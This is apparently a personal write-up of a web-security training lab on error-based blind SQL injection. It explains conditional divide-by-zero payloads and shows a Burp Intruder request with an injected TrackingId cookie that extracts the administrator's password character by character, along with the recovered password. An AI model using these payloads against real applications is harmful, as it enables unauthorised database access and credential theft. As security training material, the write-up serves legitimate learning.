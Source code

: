 ## Condition based Sql injection

In the preceding example, suppose instead that the application carries out the same SQL query, but does not behave any differently depending on whether the query returns any data. The preceding technique will not work, because injecting different Boolean conditions makes no difference to the application's responses.

In this situation, it is often possible to induce the application to return conditional responses by triggering SQL errors conditionally, depending on an injected condition. This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false. Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message), allowing us to infer the truth of the injected condition.

To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:

`xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`

These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error. With the second input, it evaluates to `1/0`, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

## Challenge

--> i added this payload in intruder

```bash
GET /filter?category=Tech+gifts HTTP/1.1
Host: acea1f411f956f08807e2da400290063.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: TrackingId=wkQ0FTyX6kLxoXL0'||(SELECT CASE WHEN (SUBSTR(password,§1§,1)='§m§') THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'; session=ULjDh6MI3mR1TiRhqUDd2ls5ixNrVWLm
Upgrade-Insecure-Requests: 1
```

--> and i got this results

![](Attachments/Pastedimage20211003074958.png)

--> after assembling them i got this password :

`8vzkeohgdu9ilptqy1wd`

![](Attachments/Pastedimage20211003073612.png)
